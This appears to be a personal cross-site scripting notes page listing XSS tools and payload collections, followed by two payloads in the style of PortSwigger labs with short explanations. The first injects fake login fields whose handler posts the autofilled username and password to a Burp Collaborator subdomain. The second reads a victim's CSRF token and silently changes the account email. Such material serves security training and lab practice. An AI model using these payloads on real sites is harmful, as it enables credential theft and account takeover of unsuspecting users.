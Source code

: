 ### Tools:

# XSStrike
link:https://github.com/s0md3v/XSStrike
# dalfox
link:https://github.com/hahwul/dalfox
# ezXSS
link:https://github.com/ssl/ezXSS

### Payloads:

https://github.com/Proviesec/xss-payload-list
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

### Portswigger payloads
*******<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">*****

The above payloads is used to steal victim username and password using burp collaborator.When the request is send and victim visits the vulnerable functionality
the it will autofill the username and password.It fetch the request when length is true which means password field is filled that's why length will be true and
request is triggered..Mode no-cors mean if the domain is changed (burb collaborator) still it didn't block the request. As a response it give username and 
password separeted by colon.


****<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>*****
The above script will be used to change the email address of victim.The script first send a request and wait for the response,from the response it will take the 
csrf token,use it send request to change the email address with test@test.com.
